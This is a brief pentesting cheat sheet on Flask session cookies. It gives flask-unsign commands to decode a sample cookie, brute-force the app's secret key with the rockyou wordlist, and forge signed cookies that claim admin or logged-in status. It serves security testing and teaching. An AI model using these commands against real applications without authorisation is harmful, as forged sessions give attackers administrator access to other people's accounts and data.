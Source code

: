# 🍶 flask

## Flask - Pentesting

### Flask-Unsign

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

#### Install Flask-Unsign

```
pip3 install flask-unsign
```

#### Decode Cookie

```
flask-unsign --decode --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Zd98ww.LHoD42lYOhmgGcBy-6t1v8Kh1jI'
```

#### Brute Force

```
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.Zd98ww.LHoD42lYOhmgGcBy-6t1v8Kh1jI' --no-literal-eval
```

#### Signing

```
flask-unsign --sign --cookie "{'admin': 'true', 'username': 'admin'}" --secret 's3cr3t'
```

#### Signing Using Legacy (Old Versions)

```
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```

## References

* [HackTricks Book](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)
* [RipSession](https://github.com/Tagvi/ripsession)
* [Online Decoder](https://www.kirsle.net/wizards/flask-session.cgi)
